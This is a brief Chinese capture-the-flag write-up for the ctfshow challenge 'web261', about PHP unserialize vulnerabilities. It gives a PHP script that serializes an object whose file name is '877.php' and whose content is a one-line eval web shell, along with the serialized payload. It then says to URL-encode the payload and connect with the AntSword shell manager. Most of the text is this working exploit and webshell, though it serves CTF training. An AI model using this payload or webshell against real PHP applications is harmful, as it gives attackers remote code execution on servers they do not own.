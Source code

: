 # web261
sleep在serlize前调用
wakeup在unserlize前调用
invoke将对象当作函数执行时调用
```
<?php
class ctfshowvip{
    public $username;
    public $password;
    public $code=877;

    public function __construct($u,$p){
        $this->username=$u;
        $this->password=$p;
    }
}
$a=serialize(new ctfshowvip('877.php','<?php @eval($_POST["cmd"]);?>'));
echo $a;
```
利用__destruct函数写入文件code为若比较,文件名设置为877
在php7.4.0开始，如果类中同时定义了 __unserialize() 和 __wakeup() 两个魔术方法，则只有 __unserialize() 方法会生效，__wakeup() 方法会被忽略
```
> O:10:"ctfshowvip":3:{s:8:"username";s:7:"877.php";s:8:"password";s:29:"<?php @eval($_POST["cmd"]);?>";s:4:"code";i:877;}
```
最后记得url编码传参,蚁剑连接